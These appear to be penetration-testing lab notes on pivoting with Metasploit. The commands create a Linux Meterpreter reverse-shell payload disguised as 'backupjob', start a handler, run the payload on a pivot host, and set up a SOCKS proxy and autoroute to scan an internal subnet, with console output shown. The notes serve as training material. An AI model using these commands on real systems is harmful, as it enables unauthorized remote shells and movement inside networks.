 ## Meterpreter Tunneling & dynamic port forwardiing 
![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


### Creating Payload for Ubuntu Pivot Host

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler
```shell
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

### Executing the Payload on the Pivot Host
```
 ./backupjob
```

### Configuring MSF's SOCKS Proxy
This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
```shell
sf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

### Creating Routes with AutoRoute
Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. 
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed


or


meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

### Testing Proxy & Routing Functionality
```shell
$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
